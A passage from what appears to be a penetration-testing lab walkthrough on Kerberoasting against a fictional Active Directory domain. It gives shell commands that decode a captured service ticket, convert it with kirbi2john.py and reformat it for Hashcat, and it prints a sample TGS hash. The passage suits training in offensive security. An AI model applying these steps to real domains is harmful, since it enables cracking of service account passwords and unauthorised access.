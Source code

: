     ZWZyZWlnaHQubG9jYWw6MTQzMw==
    ====================
    
       * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
    
    <SNIP>
    ```
    

### **Prepare Base64 for Cracking:**

```Bash
echo "<base64 blob>" | tr -d '\n'
```

We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

## **Placing the Output into a File as .kirbi**

```Bash
cat encoded_file | base64 -d > sqldev.kirbi
```

## **Extracting the Kerberos Ticket using kirbi2john.py**

```Bash
python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

## **Modifiying crack_file for Hashcat**

```Bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

OR 

```
echo '$krb5tgs$23$*23$*svc_sql$INLANEFREIGHT.LOCAL$MSSQLSvc/SQL01.inlanefreight.local*$1433*$59D5D5F704DB07
                       99C5CA044E094F6EBB$8440AA5E380B5BA5BAE0150AFA5F988832AE60F7D0D84FA4DE6AB7D31543775CBE0CF33233C4A
                       7C3A0C97EB8993CBBA24A63192CBEA0C48CA8CC35411546B9D16B026FEBE0C35FD3E430E863FA48737FF43F3DD108609
                       6B47559E765E517205864224078EE0E0226849CAD75F7C8FE5E8E7FEA0A32970498A5BA6E640738D554D76FF10EDD075
                       A36EAE5154AAF5A99A328FFD781CB122DCF7B549BED063765D964493BA72A6F09DD8A644A928686B5D97CD311E16390E
                       F0CE45361BD3CE1E14205A5366C270376B7B5D4AC8FD089E10F9E552077ADACA664FDCB38A6D059D80839A5CB3C9CAA5
                       1AA4CC9BF1D3D3034812FDD4657C9567FB392AD0AA99F0EC3B5C18D86B9260A989B03013DDBBD5D8D562B56C843B050C
                       5B846CC157EE2A371A5E802899B7BBB24A3744172E7932E4BC0D15E6E9855CC6F095BF189BC83B3615BD934DB7F4785B
                       F18E121324CEAE30C52F403EAAC2E9FF79222C4C6606C1532EAD19BE17BB162601A403A48C140EE35A814F74AF146D31
                       E3D390AE2255261AE5C484917F9E02A04A1A154A8A543E0753BE390DD0D3D2D98A605CB29F521F73E245433622ED6210
                       195D3A0E320B30BB29279E9950CFC1D7CFFEBF5FDA777C2912217F8A31F51DE3A8B2D3822B1AC9B82FDF9D7AFAF38F5E
                       82695A00C6F33E207D4A91D9E8233DCE38EB33276769871D88A19D0F3B7F2985D7063ACA064894866C48B19779AFADC7
```